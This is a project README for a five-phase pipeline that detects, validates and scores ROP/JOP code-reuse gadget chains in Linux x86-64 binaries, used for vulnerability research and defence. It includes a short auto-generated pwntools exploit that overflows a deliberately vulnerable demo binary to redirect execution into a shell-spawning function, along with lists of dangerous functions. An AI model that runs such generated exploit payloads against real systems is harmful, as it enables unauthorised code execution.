

# CRA Detection Framework

> **C**ode **R**euse **A**ttack Detection — a benchmarking suite and five-phase automated vulnerability analysis pipeline for ELF x86-64 binaries.

[](.)
[](../../issues)
[](LICENSE)
[](modules/)
[](modules/)
[](modules/)
[](.)

---

> [!WARNING]
> **This project is a work in progress.** Phases 1–4 are stable and usable end-to-end.
> **Phase 0 dynamic detection** — the AFL++ fuzzing engine and GDB triage layer — is
> actively being improved for accuracy and reliability. Seed generation, input-mode
> auto-detection, and crash deduplication are all in flux. Expect rough edges and
> breaking changes to `phase0_vuln_detection.sh` until this notice is removed.
> **Contributors are very welcome** — see [Contributing](#contributing) for where help
> is most needed right now.

---

## Table of Contents

- [What is CRA?](#what-is-cra)
- [Project Overview](#project-overview)
- [Current Status](#current-status)
- [Architecture](#architecture)
- [Repository Structure](#repository-structure)
- [Prerequisites](#prerequisites)
- [Quick Start](#quick-start)
- [Benchmarking Module](#benchmarking-module)
- [Detection Pipeline](#detection-pipeline)
  - [Phase 0 — Vulnerability Detection](#phase-0--vulnerability-detection)
  - [Phase 1 — Opcode Collection](#phase-1--opcode-collection)
  - [Phase 2 — Gadget Identification](#phase-2--gadget-identification)
  - [Phase 3 — Chain Validation](#phase-3--chain-validation)
  - [Phase 4 — Vulnerability Scoring](#phase-4--vulnerability-scoring)
- [Pipeline Dashboard](#pipeline-dashboard)
- [Output Reference](#output-reference)
- [End-to-End Example](#end-to-end-example)
- [Configuration Reference](#configuration-reference)
- [Contributing](#contributing)
- [License](#license)

---

## What is CRA?

Code Reuse Attacks (CRA) exploit existing code fragments — called **gadgets** — already present in a binary or its loaded libraries, chaining them together to perform arbitrary computation without injecting new code. The two primary classes are:

- **ROP** (Return-Oriented Programming) — gadgets that end with a `ret` instruction; the attacker overwrites the return address on the stack to chain gadgets together.
- **JOP** (Jump-Oriented Programming) — gadgets triggered via indirect `jmp` or `call` instructions; harder to detect because no stack manipulation is required.

Modern mitigations (CET Shadow Stack, stack canaries, ASLR, NX) complicate exploitation but do not eliminate it. This framework locates, classifies, and validates CRA gadget chains in real binaries, producing actionable proof-of-concept data and scored vulnerability reports.

---

## Project Overview

The repository combines two systems:

### 1. Benchmarking Suite

Measures the accuracy and overhead of five Linux code-tracing mechanisms for CRA gadget detection:

| Mechanism  | Approach          | Recall | Overhead |
|------------|-------------------|--------|----------|
| `ptrace`   | Syscall intercept | High   | Medium   |
| `eBPF`     | Kernel probe      | High   | Low      |
| `perf`     | HW counters       | Medium | Very Low |
| `strace`   | Syscall log       | Low    | High     |
| `objdump`  | Static disasm     | **Highest** | **Lowest** |

**Finding:** Static disassembly (`objdump`) ranked highest in efficiency. The original paper's trace-based algorithm was fixed by replacing the naive trace walk with a **200-instruction sliding window + peak score tracker**, improving recall from 0 to **55+ gadgets** on real binaries.

### 2. CRA Detection Pipeline

A five-phase automated analysis framework that takes a target binary and produces a structured vulnerability report, a scored ROP/JOP gadget chain catalog, and a ready-to-run pwntools payload sketch.

```
Binary → [Phase 0] → [Phase 1] → [Phase 2] → [Phase 3] → [Phase 4] → Reports
           Vuln        Opcodes     Gadgets     Chains      Scoring
           Detect      Collect     Identify    Validate    Score
```


---

## Current Status

| Component | Status | Notes |
|-----------|--------|-------|
| Benchmarking suite | ✅ Stable | ptrace / eBPF / perf / strace / objdump comparison complete |
| Phase 0 — Static analysis | ✅ Stable | Section map, function analysis, offset computation, report generation |
| Phase 0 — AFL++ fuzzing | 🔧 **Active development** | Accuracy improvements in progress (see below) |
| Phase 0 — GDB triage | 🔧 **Active development** | Crash deduplication and primitive typing being refined |
| Phase 1 — Opcode collection | ✅ Stable | Gadget extraction and library scoping working reliably |
| Phase 2 — Gadget identification | ✅ Stable | Semantic tagging, BFS filter, dependency graph all stable |
| Phase 3 — Chain validation | ✅ Stable | pwntools + Frida + ropper three-layer validation working |
| Phase 4 — Vulnerability scoring | ✅ Stable | Deterministic formula; output format frozen |
| Flask dashboard | ✅ Stable | 7-tab live dashboard, all data sources wired up |

### What is being actively worked on in Phase 0

The dynamic detection layer (Stage B of Phase 0) currently suffers from three known accuracy gaps that we are working to close:

**1. Input mode misdetection**
AFL++ defaults to `file` mode (passing corpus as `argv[1]`), but many real-world targets read from `stdin` (`gets`, `scanf`) or network sockets. If the mode is wrong, the fuzzer never touches the vulnerable code path and returns zero crashes. Static pre-scan auto-detection is implemented but needs broader testing across binary classes.

**2. Seed corpus quality**
The auto-generated seeds are generic (`A×64`, `A×256`, format strings, etc.). For targets with structured input formats (binary headers, length-prefixed fields, custom protocols), the current seeds produce low coverage and slow crash discovery. We are working on format-aware seed generation seeded from static analysis offsets.

**3. Crash deduplication and triage accuracy**
AFL++ crash deduplication is based on input file hashing, not on crash address or stack trace. This means the same root-cause vulnerability can appear as dozens of distinct crash entries, overloading the GDB triage loop. We are evaluating `afl-cmin` and coverage-based deduplication to reduce triage time and false-positive findings.

**If you have ideas or fixes for any of the above — pull requests are very welcome.** See [Contributing](#contributing) for details.

---

## Architecture

```
┌─────────────────────────────────────────────────────────────────────────┐
│                     CRA Detection Framework                             │
│                                                                         │
│  ┌──────────┐    ┌──────────┐    ┌──────────┐    ┌──────────┐         │
│  │ Phase 0  │───▶│ Phase 1  │───▶│ Phase 2  │───▶│ Phase 3  │──▶...  │
│  │ Vuln     │    │ Opcode   │    │ Gadget   │    │ Chain    │         │
│  │ Detect   │    │ Collect  │    │ Identify │    │ Validate │         │
│  └──────────┘    └──────────┘    └──────────┘    └──────────┘         │
│       │               │               │                │               │
│  Stage A: Static  objdump +      Semantic tags    pwntools (static)   │
│  Stage B: Dynamic lib scan       Dep graph        Frida   (dynamic)   │
│  AFL++ + GDB      gadget walk    BFS filter       ropper  (verify)    │
│                                                          │             │
│                                                    ┌──────────┐       │
│                                                    │ Phase 4  │       │
│                                                    │ Scoring  │       │
│                                                    └────┬─────┘       │
│                                                         │             │
│                                              score = sw × conf        │
│                                                   × impact × mit      │
│                                                         │             │
│                                              ┌──────────▼──────────┐  │
│                                              │  Flask Dashboard    │  │
│                                              │  7 tabs · charts    │  │
│                                              │  live status poll   │  │
│                                              └─────────────────────┘  │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## Repository Structure

```
CRA-detection/
├── modules/
│   ├── benchmarking/          # Tracing mechanism benchmarks
│   │   └── cra_bench.sh       # Self-contained: embeds C, auto-builds,
│   │                          # runs ptrace/eBPF/perf/strace/objdump
│   ├── vuln-code/             # Example vulnerable targets
│   │   └── stack_bof          # ELF64: gets() BOF, ret2win @ 0x400496
│   └── detection/             # Five-phase pipeline scripts
│       ├── phase0_vuln_detection.sh
│       ├── phase1_opcode_collection.sh
│       ├── phase2_gadget_identification.sh
│       ├── phase3_chain_validation.sh
│       ├── phase4_vulnerability_scoring.sh
│       └── dashboard/
│           ├── app.py
│           ├── requirements.txt
│           └── templates/
│               └── index.html
├── .gitignore
├── LICENSE
└── README.md
```

---

## Prerequisites

### Required (all phases)

```bash
# Core tools
sudo apt install -y objdump binutils readelf file strings gdb

# AFL++ fuzzer (Phase 0 Stage B)
sudo apt install -y afl++
# or build from source: https://github.com/AFLplusplus/AFLplusplus

# Python packages
pip install pwntools frida frida-tools ropper flask

# Capstone disassembly (used by benchmarking C code)
sudo apt install -y libcapstone-dev
```

### Optional

```bash
# ASan-instrumented build (improves Phase 0 triage accuracy)
clang -fsanitize=address -o target_asan target.c

# checksec (binary property check)
pip install checksec.sh
# or: sudo apt install checksec
```

### Minimum versions

| Tool | Minimum |
|------|---------|
| Python | 3.10 |
| AFL++ | 4.0 |
| GDB | 9.0 |
| pwntools | 4.11 |
| frida | 16.0 |
| ropper | 1.13 |
| Flask | 3.0 |
| capstone | 4.0 |

---

## Quick Start

```bash
git clone https://github.com/optimus0brime/CRA-detection.git
cd CRA-detection/modules/detection

# Full pipeline on the included example binary
BINARY=../vuln-code/stack_bof

./phase0_vuln_detection.sh -b $BINARY -i stdin -o ./cra_output
./phase1_opcode_collection.sh -b $BINARY \
    --phase0 ./cra_output/phase0_vuln_report.json
./phase2_gadget_identification.sh \
    -i ./cra_output/phase1_gadget_catalog.json
./phase3_chain_validation.sh -b $BINARY \
    -0 ./cra_output/phase0_vuln_report.json
./phase4_vulnerability_scoring.sh \
    -i ./cra_output/phase3_validated_chains.json

# Launch dashboard
cd dashboard
pip install flask
python app.py ../cra_output
# Open http://127.0.0.1:5000
```

---

## Benchmarking Module

`modules/benchmarking/cra_bench.sh` is a self-contained shell script that:

1. Compiles an embedded C tracer (no separate source file needed) using `libcapstone`.
2. Runs the target binary under each of the five tracing mechanisms.
3. Applies a **200-instruction sliding window** to the instruction stream, computing a JOP-alarm score at each position.
4. Tracks the **peak window score** across the entire trace, catching chains that span function boundaries.
5. Outputs a JSON report with per-gadget window scores and per-mechanism overhead.

### Key algorithm fix

The original paper used a flat trace walk that reset the counter on every non-indirect-branch instruction. On real binaries with interspersed non-gadget instructions, this caused the counter to reset before enough gadgets accumulated to trigger the alarm — resulting in **zero detections**.

The fix:

```
sliding_window[200 instructions]
  for each instruction i in trace:
      slide window to include i
      score += is_gadget_end(i) ? weight(i) : 0
      score -= is_gadget_end(window[0]) ? weight(window[0]) : 0
      peak_score = max(peak_score, score)
  alarm if peak_score > threshold
```

This lifted recall from 0 to **55+ confirmed gadgets** on real binaries tested against the benchmark suite.

### Running the benchmark

```bash
cd modules/benchmarking

# Benchmark a binary (must already be running or you supply a PID)
./cra_bench.sh --binary /path/to/target --pid <PID> --output bench_results.json

# Batch scan all running processes
./cra_bench.sh --batch --output batch_results.json

# Results include per-mechanism: recall, false-positive rate, CPU overhead %
```

---

## Detection Pipeline

The five scripts are designed to be run in sequence. Each phase reads the previous phase's JSON output, adds its own findings, and writes a new JSON that the next phase consumes.

### Phase 0 — Vulnerability Detection

> [!NOTE]
> **Stage A (static analysis) is stable.** Stage B (AFL++ fuzzing + GDB triage) is
> under active development. If the fuzzer returns zero findings on your target, check
> the input mode first (`-i stdin` for `gets`/`scanf` targets) and run with `-S 1`
> to use static-only mode while dynamic accuracy improves.

**Script:** `phase0_vuln_detection.sh`  
**Output:** `phase0_vuln_report.json`, `phase0_disassembly_report.md`, `phase0_5_vulnerability_report.md`, `phase0_handoff_summary.md`

Two-stage architecture:

#### Stage A — Static Analysis (always runs)

1. **Binary metadata** — architecture, bits, PIE, build ID, compiler via `file` / `readelf`
2. **Section mapping** — `.text`, `.data`, `.rodata`, `.bss`, `.got.plt` with addresses and sizes
3. **Function analysis** — stack frame sizes, register usage, call graphs, dangerous call sites
4. **Pattern detection** — blacklist scan across 18 dangerous functions:

| Category | Functions |
|----------|-----------|
| Stack BOF (stdin) | `gets`, `scanf`, `fscanf` |
| Stack BOF (string) | `strcpy`, `strcat`, `sprintf`, `vsprintf` |
| Command injection | `system`, `popen`, `execve`, `execl`, `execvp` |
| Format string | `printf`, `fprintf`, `syslog` (non-const arg) |
| Memory mgmt | `free`, `malloc`, `realloc`, `calloc` |

5. **Offset computation** — analytical RIP offset without needing a crash:
   ```
   buf_size    = operand of (sub rsp, N)  in prologue
   buf_offset  = operand of (lea rdi, [rbp - N])  before dangerous call
   rip_offset  = buf_offset + 8  (buf + saved RBP)
   ```
6. **Win function detection** — functions that call `system`/`execve` with a const argument
7. **Input mode auto-detection** — sets `-i stdin` if `gets`/`scanf` found in PLT
8. **Report generation** — Phase 0 disassembly report + Phase 0.5 classification report + hand-off summary

#### Stage B — Dynamic Analysis (requires AFL++ or pre-existing crashes)

8. **Targeted seed generation** — overflow seeds at offsets derived from Stage A (`offset`, `offset+8`, `offset+16`, …) plus pwntools cyclic patterns
9. **AFL++ fuzzing** — corpus-based fuzzing with auto-detected input mode; supports parallel jobs (`-j N`)
10. **Crash triage** — each unique crash run under GDB; captures full register state, fault address, signal, backtrace, memory maps
11. **Offset probing** — de Bruijn cyclic pattern to compute exact RIP offset
12. **Primitive classification** — `RETURN_ADDRESS_OVERWRITE`, `ARBITRARY_WRITE`, `HEAP_CORRUPTION`, `FORMAT_STRING`, `CONTROLLED_BRANCH`

```bash
# Phase 0 options
./phase0_vuln_detection.sh \
  -b  <binary>          # required
  -o  <output_dir>      # default: ./cra_output
  -i  stdin|file|arg|auto  # default: auto (detected from binary imports)
  -t  <seconds>         # AFL++ fuzz duration, default: 300
  -c  <crash_dir>       # skip fuzzing; use existing crashes
  -j  <N>               # AFL++ parallel jobs
  -A  <asan_binary>     # ASan build for enhanced triage
  -S  1                 # static-only mode (skip Stage B entirely)
```

---

### Phase 1 — Opcode Collection

**Script:** `phase1_opcode_collection.sh`  
**Output:** `phase1_gadget_catalog.json`, `phase1_meta.json`

Performs static gadget extraction via `objdump -d -M intel`:

- **Backward chain walk** — for each sink instruction (`ret`, `jmp`, `call`, `j*`), walks backwards up to `depth_max` instructions collecting the gadget body
- **Boundary detection** — stops at function prologues (`push rbp`, `mov rbp,rsp`, `endbr64`), memory fences, and `int3` traps; `nop` is intentionally **not** a boundary (fixes silent gadget drops from compiler alignment padding)
- **Sink classification** — `RET`, `JMP`, `CJMP`, `CALL` ordered by priority to avoid misclassification
- **Shared library scanning** — `ldd` discovers loaded libs; Phase 0 memory map scopes the scan to only libs actually present at crash time, skipping unreachable code
- **Phase 0 integration** — runtime base addresses from Phase 0 crash maps annotate each gadget so Phase 3 can resolve addresses without re-running the binary

```bash
./phase1_opcode_collection.sh \
  -b  <binary>
  --phase0  <phase0_vuln_report.json>   # enables lib scope + base addr
  -d  5     # min chain depth (instructions before sink)
  -D  15    # max chain depth
  -L  1     # scan shared libs (0=off)
  -G  100000  # max total gadgets
```

---

### Phase 2 — Gadget Identification

**Script:** `phase2_gadget_identification.sh`  
**Output:** `phase2_enhanced_catalog.json`

Enriches the Phase 1 gadget catalog with semantic analysis:

#### Semantic tagging

Each gadget is labelled with one or more tags based on instruction pattern matching:

| Tag | Patterns matched |
|-----|-----------------|
| `SYSCALL` | `syscall`, `int 0x80`, `sysenter` |
| `MEM_WRITE` | `mov [addr], reg`, `stosb/d/q` |
| `MEM_READ` | `mov reg, [addr]`, `movs*` |
| `STACK_MANIP` | `push`, `pop`, `add/sub rsp`, `leave`, `xchg rsp` |
| `ARITHMETIC` | `add`, `sub`, `imul`, `and`, `xor`, `shl/shr` |
| `REG_SETUP` | `mov`, `lea`, `xchg`, `movzx`, `movsx` |
| `CONTROL_FLOW` | `jmp`, `call`, `ret`, `j*` |

#### Register dependency analysis

For each gadget, the set of **input registers** (must be pre-loaded by a prior gadget) and **output registers** (available to the next gadget) is computed. This feeds the BFS reachability filter and Phase 3 constraint checking.

#### Phase 0 reachability pre-filter

When Phase 0 controlled registers are known, a BFS propagation removes all gadgets whose input registers can never be satisfied from the attacker's starting register state:

```
seed registers: Phase0.controlled_registers ∪ {rsp, rip}
iteration:      mark gadget reachable if inputs ⊆ reachable_outputs
                add its outputs to reachable_outputs
convergence:    stop when no new gadgets added
effect:         typically removes 60-80% of catalog
```

#### Dependency graph

Directed edges connect gadgets where `G1.reg_outputs ∩ G2.reg_inputs ≠ ∅`, capped at `--max-dep-edges`. Phase 3 traverses this graph to enumerate candidate chains.

```bash
./phase2_gadget_identification.sh \
  -i  <phase1_gadget_catalog.json>
  -E  10000   # max dependency graph edges
```

---

### Phase 3 — Chain Validation

**Script:** `phase3_chain_validation.sh`  
**Output:** `phase3_validated_chains.json`, `phase3_payload_sketch.py`

Validates candidate chains through three independent layers:

#### Layer 1 — pwntools static (always runs)

- Loads the ELF with `pwntools.ELF`, rebased to the Phase 0 runtime base
- Checks each gadget address against executable `PT_LOAD` segments
- Attempts goal-oriented ROP auto-build: `rop.execve(b'/bin/sh', 0, 0)` or `rop.mprotect(...)` depending on chain goal
- Confidence ceiling: **0.70** (CONFIRMED can only come from Frida)

#### Layer 2 — Frida dynamic (runs when crash input exists)

- Spawns the binary with the Phase 0 crash input under Frida
- Injects a JavaScript interceptor that hooks every gadget address with `Interceptor.attach`
- **PIE-aware:** offsets are computed relative to Phase 0 base; `Module.getBaseAddress()` resolves the live address at hook-time — ASLR-transparent
- Three delivery modes: `stdin` (subprocess + attach), `file` / `arg` (device.spawn + resume)
- Captures register snapshots at every hook; evaluates hit order
- Confidence: all gadgets hit in order → **0.93**, partial → proportional to coverage

#### Layer 3 — ropper (optional confidence boost)

- Indexes the binary once with ropper's gadget database
- Cross-checks Phase 2 sink addresses; full match → **+0.08** confidence

#### Validation outcomes

| Status | Meaning | Confidence |
|--------|---------|------------|
| `CONFIRMED` | Frida saw all gadgets fire in sequence | ≥ 0.75 |
| `PROBABLE` | pwntools built a chain or partial Frida hit | 0.30 – 0.74 |
| `UNLIKELY` | No layer validated the chain | < 0.30 |
| `BLOCKED` | CET / stack canary detected — chain infeasible | < 0.10 |

```bash
./phase3_chain_validation.sh \
  -b  <binary>
  -0  <phase0_vuln_report.json>
  -i  <phase2_enhanced_catalog.json>
  -t  15      # per-chain timeout (seconds)
  -n  200     # max chains to validate
  -F  1       # disable Frida layer (static-only)
```

---

### Phase 4 — Vulnerability Scoring

**Script:** `phase4_vulnerability_scoring.sh`  
**Output:** `phase4_vulnerability_report.json`, `phase4_vulnerability_report.txt`

Produces a deterministic, auditable score for every validated chain:

```
score = status_weight × confidence × impact × mitigation_multiplier
```

**Status weights** (from Phase 3 angr/Z3 / Frida result):

| Status | Weight |
|--------|--------|
| CONFIRMED | 1.00 |
| PROBABLE | 0.60 |
| UNLIKELY | 0.10 |
| BLOCKED | 0.00 |

**Impact** (what the chain achieves if triggered):

| Goal | Impact |
|------|--------|
| `SYSCALL_EXECUTION` | 10 |
| `ARBITRARY_MEM_WRITE` | 8 |
| `STACK_PIVOT_ROP` | 7 |
| `INFORMATION_DISCLOSURE` | 5 |
| `CONTROL_FLOW_HIJACK` | 4 |

**Mitigation multiplier** (runtime environment penalties, multiplicative):

| Mitigation active | Multiplier |
|-------------------|-----------|
| ASLR level 2 + PIE (no known leak) | × 0.55 |
| Stack canary | × 0.80 |
| CET IBT or Shadow Stack | × 0.40 |
| Full RELRO | × 0.90 |
| No mitigations | × 1.00 |

**Severity thresholds** (on 0 – 10 scale):

| Severity | Score range | Meaning |
|----------|-------------|---------|
| HIGH | ≥ 6.0 | Confirmed exploitable; patch immediately |
| MEDIUM | ≥ 3.0 | Probable; manual verification recommended |
| LOW | < 3.0 | Theoretical / blocked by mitigation |

```bash
./phase4_vulnerability_scoring.sh \
  -i  <phase3_validated_chains.json>
  -T  6.0     # HIGH threshold
  -M  3.0     # MEDIUM threshold
  -N  50      # top-N chains in report
```

---

## Pipeline Dashboard

A Flask single-page application that visualises the entire pipeline output across seven tabs.

```bash
cd modules/detection/dashboard
pip install flask
python app.py ../cra_output       # point at your cra_output dir
python app.py ../cra_output --port 8080
```

Open **http://127.0.0.1:5000**

### Tabs

| Tab | Key visuals |
|-----|-------------|
| **Overview** | Pipeline health row (Phase 0→4 nodes), 4 metric tiles, mitigation grid, best chain card |
| **Binary** | Metadata, security properties, filterable vulnerability-pattern table, function & section tables, win functions |
| **Gadgets** | Phase 1 sink-type donut, Phase 2 semantic-tag bar chart, unique/duplicate counts |
| **Chains** | Validation-outcome donut, best-chain detail, filterable sortable chain table |
| **Scoring** | Severity donut, mitigation-multiplier breakdown, scored chain leaderboard |
| **AFL++** | Execs/sec line chart, crashes + corpus-size over time chart, seed corpus table |
| **Reports** | Rendered markdown (Phase 0 disassembly, Phase 0.5 classification, hand-off summary), Phase 4 text report, AFL stderr |

The status dot in the top-right polls `/api/status` every 12 seconds; it turns green when all seven pipeline output files are present. Phase 1 and Phase 2 gadget catalogs can be hundreds of MB — the backend streams only the metadata header of each file, so the dashboard loads instantly regardless of catalog size.

---

## Output Reference

Running the full pipeline produces the following directory:

```
cra_output/
├── afl_output/
│   └── default/
│       ├── cmdline          # AFL++ invocation command
│       ├── crashes/         # Unique crash inputs (id:000000,… format)
│       ├── hangs/           # Timeout inputs
│       ├── plot_data        # Time-series: execs/sec, crashes, corpus
│       └── queue/           # Corpus queue entries
├── afl_stderr.log           # AFL++ stderr (warnings, fuzz stats)
│
├── phase0_static.json       # Stage A output: metadata, sections, patterns
├── phase0_dynamic.json      # Stage B output: GDB triage results per crash
├── phase0_vuln_report.json  # Merged: feeds Phase 1 ← pipeline entry point
├── phase0_disassembly_report.md    # Phase 0 human report
├── phase0_5_vulnerability_report.md  # Phase 0.5 classification
├── phase0_handoff_summary.md  # One-page brief for phases 1–4
├── phase0_crashes/          # Imported / AFL++ crash inputs
├── phase0_seeds/            # Generated seed corpus
│   ├── seed_01_byte
│   ├── seed_02_64           # 64 A's (covers typical stack buffer)
│   ├── seed_03_256
│   ├── seed_04_fmt          # Format-string payload
│   ├── seed_05_null         # Null-byte sequence
│   ├── seed_06_path         # Path traversal pattern
│   ├── seed_07_neg          # Negative integer
│   └── seed_08_512          # 512 A's
│
├── phase1_gadget_catalog.json  # Full gadget list + instructions (large)
├── phase1_meta.json            # Lightweight: total count + sink distribution
│
├── phase2_enhanced_catalog.json  # Semantic tags + dep graph + BFS filter
│
├── phase3_validated_chains.json  # Per-chain: status, confidence, regs
├── phase3_payload_sketch.py      # pwntools exploit script (auto-generated)
│
├── phase4_vulnerability_report.json  # Scored chains + remediation
└── phase4_vulnerability_report.txt  # Human-readable ranked report
```

---

## End-to-End Example

The `modules/vuln-code/stack_bof` binary is an intentionally vulnerable ELF64 target used to validate the pipeline. Here is what the framework finds automatically:

### Binary properties

```
File     : stack_bof (ELF 64-bit LSB executable, x86-64, not stripped)
PIE      : OFF  → fixed base 0x400000
Canary   : ABSENT
NX       : DISABLED  → stack/heap executable
RELRO    : Partial  → .got.plt writable at runtime
ASLR     : Level 2  → affects libraries only (binary fixed)
```

### Phase 0 static findings

```
[CRITICAL] STACK_BUFFER_OVERFLOW @ 0x4004cf  vuln()
           gets() reads unbounded stdin into buf[64] at rbp-0x40
           Analytical RIP offset: 72 bytes (64B buf + 8B saved RBP)

[HIGH]     EXECUTABLE_STACK  [binary-wide]
           GNU_STACK has PF_X; shellcode on stack is executable

[HIGH]     WIN_FUNCTION @ 0x400496  secret()
           Calls system("/bin/sh") — unreachable via normal flow

[MEDIUM]   WRITABLE_GOT @ 0x402fe8  .got.plt
           Partial RELRO; 4 PLT entries writable (puts/system/printf/gets)

[LOW]      INFORMATION_DISCLOSURE @ 0x40050a  main()
           printf("secret() @ %p") leaks win function address
```

### Phase 3 Frida confirmation

```
Gadgets hooked : 3/3
Hit order      : sequential ✓
Status         : CONFIRMED
Confidence     : 0.93
Concrete regs  : rip=0x400496  rsp=0x7fff...
```

### Phase 4 score

```
score = 1.00 × 0.93 × 10.0 × 0.55 = 5.115  →  MEDIUM
(ASLR level 2 active — score would be 9.3 with -S flag on a no-ASLR system)
```

### Generated payload sketch (`phase3_payload_sketch.py`)

```python
from pwn import *
context(arch='amd64', os='linux')
elf = ELF('./stack_bof')

# RIP offset: 72 bytes (Phase 0 analytical)
# Win target: secret() @ 0x400496 → system('/bin/sh')
payload  = b'A' * 72          # fill buf[64] + saved RBP
payload += p64(0x00400496)    # overwrite saved RIP → secret()

p = process('./stack_bof')
p.recvuntil(b'Input: ')
p.sendline(payload)
p.interactive()   # → [!] secret() called → $ shell
```

---

## Configuration Reference

### Global defaults (all phases)

| Flag | Default | Description |
|------|---------|-------------|
| `-o` | `./cra_output` | Output directory (shared across all phases) |
| `-b` | required | Target binary path |

### Phase 0 flags

| Flag | Default | Description |
|------|---------|-------------|
| `-i` | `auto` | Input mode: `stdin` / `file` / `arg` / `auto` |
| `-t` | `300` | AFL++ fuzz duration (seconds) |
| `-j` | `1` | AFL++ parallel jobs |
| `-m` | `200` | AFL++ memory limit (MB) |
| `-c` | none | Pre-existing crash corpus dir (skip fuzzing) |
| `-s` | auto | Seed corpus directory |
| `-A` | none | ASan-instrumented binary path |
| `-S` | `0` | `1` = static-only mode (skip AFL++ / GDB) |

### Phase 1 flags

| Flag | Default | Description |
|------|---------|-------------|
| `--phase0` / `-p` | none | Phase 0 report path (enables lib scope + base addr) |
| `-d` | `5` | Min gadget chain depth (instructions before sink) |
| `-D` | `15` | Max gadget chain depth |
| `-L` | `1` | `0` = skip shared library scanning |
| `-G` | `100000` | Max total gadgets before stopping |

### Phase 2 flags

| Flag | Default | Description |
|------|---------|-------------|
| `-i` | `./cra_output/phase1_gadget_catalog.json` | Phase 1 input |
| `-E` | `10000` | Max dependency graph edges |

### Phase 3 flags

| Flag | Default | Description |
|------|---------|-------------|
| `-0` | `./cra_output/phase0_vuln_report.json` | Phase 0 context |
| `-i` | `./cra_output/phase2_enhanced_catalog.json` | Phase 2 input |
| `-t` | `15` | Per-chain validation timeout (seconds) |
| `-n` | `200` | Max chains to validate |
| `-F` | `0` | `1` = disable Frida layer (pwntools-only mode) |

### Phase 4 flags

| Flag | Default | Description |
|------|---------|-------------|
| `-i` | `./cra_output/phase3_validated_chains.json` | Phase 3 input |
| `-T` | `6.0` | HIGH severity score threshold |
| `-M` | `3.0` | MEDIUM severity score threshold |
| `-N` | `50` | Top-N chains to include in the report |

---

## Contributing

**This project is open for contributors.** Whether you are a seasoned binary exploitation researcher or just getting started with fuzzing and reverse engineering, there is something here for you to work on.

### How to contribute

1. **Check open issues** — browse the [issue tracker](../../issues) for tasks labelled `good first issue`, `help wanted`, or `phase0-fuzzing`.
2. **Open an issue first** for any non-trivial change so we can discuss direction before you spend time implementing it.
3. **Fork → branch → PR** — keep branches small and focused; one feature or fix per PR.
4. **Tests** — if you add or change a detection heuristic, include the target binary or a synthetic test case that demonstrates the before/after behaviour.

### Priority areas — Phase 0 AFL++ accuracy (most needed right now)

These are the open problems we are actively working on. PRs here have the highest impact:

| Task | Difficulty | Label |
|------|-----------|-------|
| **Format-aware seed generation** — detect binary input formats (ELF headers, TLV, length-prefixed) from static analysis and generate matching seeds | Medium | `phase0-fuzzing` |
| **Network socket fuzzing mode** — add `-i socket` delivery mode so AFL++ can fuzz targets that read from `AF_INET`/`AF_UNIX` sockets | Hard | `phase0-fuzzing` `new-input-mode` |
| **`afl-cmin` integration** — deduplicate crash corpus by coverage bitmap before GDB triage, reducing redundant triage runs | Easy | `phase0-fuzzing` `good first issue` |
| **Structured format mutations** — add `radamsa` or `honggfuzz`-style mutators for targets with custom binary protocols | Medium | `phase0-fuzzing` |
| **Parallel triage** — GDB triage currently runs serially; parallelise across crash inputs with `multiprocessing` | Easy | `phase0-triage` `good first issue` |
| **ASan corpus integration** — when `-A <asan_binary>` is supplied, use ASan output to automatically classify crash type before GDB runs | Medium | `phase0-triage` |
| **Coverage-guided seed scoring** — use `afl-showmap` to score seeds by edge coverage and rank them before fuzzing starts | Medium | `phase0-fuzzing` |

### Other areas of interest

- **PE / Mach-O support** — extend Phases 1–2 to handle Windows and macOS binaries
- **AArch64 / RISC-V gadget extraction** — the gadget walker currently targets x86-64 only
- **Additional Frida delivery modes** — network socket, shared memory, custom loaders
- **Extended mitigation scoring** — SafeStack, CFI, shadow call stack, FORTIFY_SOURCE levels
- **CI regression suite** — automated pipeline runs against a set of known-vulnerable binaries with expected findings

### Code style

| Language | Style |
|----------|-------|
| Shell scripts | POSIX `sh`; no `bash`-isms; run through `shellcheck` |
| Python | PEP 8; type hints on all public functions; `black` formatted |
| Embedded C | `clang-format` with LLVM style |
| Markdown | Wrap at 100 characters; ATX headings |

### Getting help

Open a [discussion](../../discussions) if you are unsure where to start. We are happy to help orient new contributors.

---

## License

This project is licensed under the [MIT License](LICENSE).

---

<div align="center">

Built for the study of binary exploitation and CRA defences on Linux x86-64.

**Work in progress — contributions welcome.**
If Phase 0 fuzzing accuracy is your thing, [we need you](../../issues?q=label%3Aphase0-fuzzing).

</div>
